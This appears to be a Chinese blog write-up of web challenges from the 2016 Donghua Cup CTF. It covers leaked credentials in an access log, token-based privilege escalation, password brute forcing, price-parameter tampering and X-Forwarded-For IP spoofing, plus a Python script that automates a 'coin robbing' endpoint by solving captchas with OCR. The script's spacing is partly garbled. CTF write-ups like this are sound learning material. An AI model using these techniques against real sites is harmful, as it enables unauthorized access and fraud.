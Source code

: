 ```yaml
---
title: 东华杯Web-CTF解题思路
time: 2016.11.16 00:01:00
layout: post
tags:
- Security
- CTF

excerpt: 东华大学举办的东华杯。我们队以Pegasus.X参加了这个比赛，Web题目质量一般，权当学习一下。不过，这次团队一起打比赛，思路交流的很爽，值得纪念。
---
```




# 东华杯

## Web1 仔细

用dirsearch扫一波目录，发现/log/access.log 

curl下载下来



```
172.16.3.1 - - [12/Oct/2016:07:54:48 +0000] "GET /wojiushiHouTai888/denglU.php?username=admin&password=af3a-6b2115c9a2c0&submit=%E7%99%BB%E5%BD%95 HTTP/1.1" 200 771 "-" "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.101 Safari/537.36"
```

直接访问，得flag

flag{ff11025b-ed80-4c42-afc1-29b4c41010cb}





## Web2 跳

越权

在登陆test test账户时，可以看到看到一个token:test2的md5值

带着这个md5访问admin.php 就可以得到flag



## Web 威胁 1

admin

爆破密码20160807



## Web 威胁2

查看session发现个guest用户	

试密码123456登录上去莫名得到了flag



## Web 物超所值

修改返回包，把所有的钱改成0.001 保证能发出post包	

post数据改为id=0.01&Price=0.01	

就会弹flag



## Web 抢金币

写脚本抢金币, 但是抢劫会被抓

停顿很久发现在最后一步使用result2 = s2.head(url2,data=payload, headers=header).content而非post就不会被抓.

       脚本如下: 

```python
#!/usr/bin/python

# -- coding:utf-8 --

'''

image =Image.open('vcode.png')

vcode =pytesseract.image_to_string(image)

print vcode

'''

 

import re

 

try:

    import requests

exceptImportError:

   raise SystemExit('\n[!] requests模块导入错误,请执行pipinstall requests安装!')

    

try:

    import pytesseract

    from PIL import Image

exceptImportError:

   print '模块导入错误,请使用pip安装,pytesseract依赖以下库：'

    print'http://www.lfd.uci.edu/~gohlke/pythonlibs/#pil'

    print'http://code.google.com/p/tesseract-ocr/'

    raise SystemExit

 

try:

    while 1:

        s = requests.Session()

        url1 ='http://120.132.85.112:8888/rob.php'

        url2 = 'http://120.132.85.112:8888/dorob.php'

        captchaUrl ='http://120.132.85.112:8888/code.php'

        pattern = re.compile(r'<inputtype="hidden" name="user" value=".*">')

        for userId in [4, 2, 3, 48, 1,49,58,97,98,38,36,28,114, 20, 72, 77,20,66,63,104, 31,104, 70,39]:

            #print userId

            header = {'Cookie':'PHPSESSID=fmdsad90jg0ss8aor5ef29blh7'}

            result1 = s.get(url1, params={'id':str(userId)}, headers=header).content

            matchResult =pattern.search(result1)

            if matchResult:

                captchaImage =s.get(captchaUrl, headers=header).content

                with open('captcha.png','wb')as f:

                    f.write(captchaImage)

                

                imageFile =Image.open('captcha.png')

                #print imageFile

                code =pytesseract.image_to_string(imageFile, lang="eng")

                #print code

 

                userName =matchResult.group().split('"')[5]

                payload = {'user': userName,'num': '1', 'code': code}

                s2 = requests.Session()

                result2 = s2.post(url2,data=payload, headers=header).content

                print result2

        

        '''

        r = s.post(url1, data=payload,headers=header)

        

        if 'error' not in r.content:

            print '\n爷,正确密码为:', pwd

            print '\n' + r.content

            break

        else:

           print '正在尝试密码:', pwd

        '''

exceptKeyboardInterrupt:

   raise SystemExit('大爷,按您的吩咐,已成功退出！')

```





## Web分析

http://120.132.85.112:1999/administrator.php 能够访问管理页面
在管理页面前端源码里能找到默认账号密码 administrator administrator
登录提示IP不在许可范围
X-Forwarded-For伪造IP为127.0.0.1
得到flag



